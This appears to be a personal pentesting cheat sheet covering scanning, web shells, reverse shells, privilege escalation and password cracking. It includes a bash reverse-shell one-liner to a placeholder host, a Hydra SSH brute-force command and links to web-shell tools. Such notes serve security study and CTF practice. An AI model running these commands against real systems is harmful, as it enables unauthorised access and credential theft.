 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
- enum4linux
    - Parameters
        - `-a` : Do all simple enumeration
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
- Make it moreinteractively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
### Command
- `sudo -l`
## Burp Force
### Software
- Hydra
    - Crack online services password
        - SMB、SSH......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like /etc/shadow
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists